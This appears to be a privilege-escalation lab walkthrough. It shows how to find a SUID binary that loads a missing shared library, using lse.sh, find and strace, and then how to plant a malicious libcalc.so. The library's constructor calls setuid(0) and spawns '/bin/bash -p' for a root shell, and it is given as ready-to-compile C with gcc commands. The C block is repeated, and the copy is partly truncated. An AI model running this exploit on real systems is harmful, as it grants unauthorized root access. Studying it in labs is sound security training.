

Shared Object Injection (missing library)
Missing Shared Object loaded by an executable
• When a program is executed, it will try to load the shared objects it requires.
• By using a program called strace, we can track these system calls and determine whether any shared objects were not found.
◇ If we can write to the location the program tries to open:
1- we can create a shared object
2- then spawn a root shell when the shared object is loaded
0. Linux Smart Enumeration(lse.sh)
target@debian:~$ ./lse.sh -i | more

1. manually locate files with the SUID or SGID bits set:
target@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null


We can see that suid-so file should execute with SUID permissions
2. Run strace on the SUID file
target@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"

The libcalc.so shared object could not be found, and the program is looking in our user’s home directory, which we can write to.
3. Create the /home/user/.config directory. If it not exist already:
target@debian:~$ mkdir /home/user/.config
4. Create the file libcalc.c with the following contents:
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
setuid(0);
system("/bin/bash -p");
}
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
setuid(0);
system("/bin/bash -p");
}
5. Compile libcalc.c into /home/user/.config/libcalc.so:
target@debian:~$ gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
6. Run the SUID executable to get a root shell:
target@debian:~$ /usr/local/bin/suid-so